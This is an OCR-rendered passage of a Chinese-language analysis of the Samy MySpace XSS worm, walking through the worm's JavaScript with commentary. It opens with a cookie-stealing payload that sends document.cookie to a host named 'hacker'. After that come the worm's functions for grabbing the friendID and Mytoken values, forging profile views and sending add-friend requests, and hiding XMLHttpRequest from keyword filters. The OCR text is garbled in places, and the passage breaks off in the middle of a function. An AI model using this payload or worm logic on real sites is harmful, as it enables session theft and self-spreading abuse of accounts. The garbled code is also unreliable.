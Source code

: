 ```php+HTML ">var+img=new+Image();img.src=&quot;<a href="http://hacker/”%20+%20document.cookie">http://hacker/”%20+%20document.cookie</a>;
        document.location
            = 'http: //www.myspace.com' + location.pathname + location.search
        // 这里进行重定向到 www 站点从用户的属性页面
    } else {
        // 如果这里不是在用户的属性页面，是在浏览页面时候遇上的，就开始工作了！
        if (!M) {
            getData(g())    // g 返回页面特定内容
        }
        main()  // ready to go
    }

* * *

`getdata` 的函数内容很容易理解

    function getData(AU) {
        M = getFromURL(AU, 'friendID');
        L = getFromURL(AU, 'Mytoken')
    }

这里是 得到用户的属性页的列表：

    function getQueryParams() {
        var E = document.location.search;
        var F = E.substring(1, E.length).split(' & ');
        var AS = new Array();
        for (var O = 0; O < F.length; O++) {
            var I = F[O].split(' = ');
            AS[I[0]] = I[1]
        }
        return AS
    }

从这个的标签可以看出，此处实际上没有进行XSS的过滤，所以可以直接提交一个 div 标签，就可以实现 XSS 代码的存储。

* * *

    function main() {
        var AN = getClientFID();    // 取得uid
        var BH = ' / index.cfm ? fuseaction = user.viewProfile & friendID = ' + AN + ' & Mytoken = ' + L;   
        J = getXMLObj();            // 取得 http交互示例
        httpSend(BH, getHome, 'GET');   // 伪造浏览用户 profile 的动作 // 这里可能报异常
        xmlhttp2 = getXMLObj();         // 这里得到一个 HTTP 交互的示例
        httpSend2(' / index.cfm ? fuseaction = invite.addfriend_verify & friendID = 11851658 & Mytoken = ' + L,
            processxForm, 'GET')
    }

* * *

在 `getXMLObj` 函数里面使用了比较hack 的写法，应该是避免了人一些针对关键字的检测，其具体的实现代码如下：

    function getXMLObj() {
        var Z = false;
        if (window.XMLHttpRequest) {
            try {
                Z = new XMLHttpRe - quest()     // 这里就是混淆
            } catch(e) {
                Z = false
            }
        } else if (window.ActiveXObject) {
            try {
```